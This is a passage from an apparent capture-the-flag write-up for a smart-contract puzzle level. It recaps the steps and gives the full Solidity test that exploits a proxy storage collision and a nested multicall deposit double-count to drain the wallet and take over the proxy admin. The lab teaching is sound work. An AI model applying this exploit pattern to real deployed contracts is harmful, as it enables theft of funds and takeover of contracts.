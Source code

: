 After the `execute` we have successfully removed all the ether balance from the contract (and gained `0.001` free ether) and we can call `puzzleWallet.setMaxBalance(uint256(player));`

By doing that, we are now **the admin of the `PuzzleProxy` contract!**

## Solution code

Let's recap what we need to do to solve the challenge

1. Call `proposeNewAdmin(player)` to become the owner of the `PuzzleWallet` when called via `delegatecall`
2. Now that we are the owner (when the `PuzzleWallet` is accessed via `delegatecall`) we can add ourselves to the list of whitelisted users via `addToWhitelist(player);`
3. Build a batched calls payload to be able to deposit `0.001 ether` but make the contract account us for `0.002 ether` in our balance. See the explanation above for more details
4. Execute the multicall, now the `PuzzleWallet` has no more ether inside of it
5. Call `setMaxBalance(uint256(player));` to become the `admin` of the `PuzzleProxy`

Here's the code of the test used to solve the challenge

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Exploit the contract to become the owner of `PuzzleWallet`
    level.proposeNewAdmin(player);

    // Now that we are the admin, add ourself to the whitelisted user list
    // to be able to deposit, execute and multicall
    puzzleWallet.addToWhitelist(player);

    // Build the payload to drain the wallet and be able to call `setMaxBalance`
    bytes[] memory callsDeep = new bytes[](1);
    callsDeep[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);

    bytes[] memory calls = new bytes[](2);
    calls[0] = abi.encodeWithSelector(PuzzleWallet.deposit.selector);
    calls[1] = abi.encodeWithSelector(PuzzleWallet.multicall.selector, callsDeep);
    puzzleWallet.multicall{value: 0.001 ether}(calls);

    // Execute the batched calls payload
    puzzleWallet.execute(player, 0.002 ether, "");

    // Become the admin of the `PuzzleProxy`
    puzzleWallet.setMaxBalance(uint256(player));

    // Assert that we have completed the challenge
    assertEq(level.admin(), player);

    vm.stopPrank();
}
```
